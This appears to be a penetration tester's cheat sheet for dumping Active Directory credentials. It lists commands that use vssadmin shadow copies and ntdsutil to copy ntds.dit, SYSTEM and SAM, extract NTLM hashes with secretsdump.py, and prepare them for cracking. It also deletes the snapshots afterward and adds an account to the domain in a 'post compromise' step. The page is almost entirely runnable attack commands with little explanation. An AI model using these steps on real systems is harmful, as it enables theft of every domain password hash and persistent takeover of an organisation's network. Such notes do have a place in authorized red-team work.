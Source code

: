 `C:\vssadmin list shadows`

`C:\vssadmin create shadow /for=C:`

`copy \\? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit .`

`copy \\? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM .`

`copy \\? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM .`

`secretsdump.py -system system.save -ntds ntds.dit local -just-dc-ntlm`

remove machine accounts

`grep -a -F ':::' hashes.txt | grep -av '$:' > finalhashes.txt`

only passwords for pipal

`cut -f 3 -d ':' cracked_with_users_enabled.txt`

`vssadmin delete shadows /shadow={cd534584-a272-44ab-81e1-ab3f5fbe9b29}`

godumpsecrets for faster

### ntdsutil

```
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

`ntdsutil`

`ntdsutil: snapshot`

`ntdsutil: list all`

`ntdsutil: create`

`snapshot: mount 1`

Cleanup snapshots:

`snapshot: list all`

`snapshot: unmount 1`

`snapshot: list all`

`snapshot: delete 1`

## Post Compromise (Not opsec safe)
Add user to local admin and domain admin

### Add Domain Admin
`net user username password /ADD /DOMAIN`
